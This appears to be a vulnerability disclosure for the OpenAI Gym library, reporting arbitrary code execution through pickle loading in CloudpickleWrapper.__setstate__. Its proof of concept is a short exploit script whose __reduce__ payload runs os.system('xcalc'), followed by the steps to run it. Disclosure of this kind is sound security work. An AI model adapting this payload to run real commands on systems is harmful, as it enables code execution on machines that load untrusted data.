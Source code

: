 # Description
OpenAI Gym is a toolkit for developing and comparing reinforcement learning algorithms. This is the gym open-source library, which gives you access to a standardized set of environments.
* **Vulnerability description**
    untrusted loading of data by the pickle.load function leading to Arbitrary code execution.

# Proof of Concept
Run exploit.py
```
import os
import pickle
#os.system('pip3 install gym')
from gym.vector.utils import misc
#payload formation
class ArbitraryCode:
    def __reduce__(self):
        cmd = ('xcalc')
        return os.system, (cmd,)
dumps = pickle.dumps(ArbitraryCode())
misc.CloudpickleWrapper.__setstate__(dumps,dumps)
```
* `pip3 install gym`
* `python3 exploit.py`

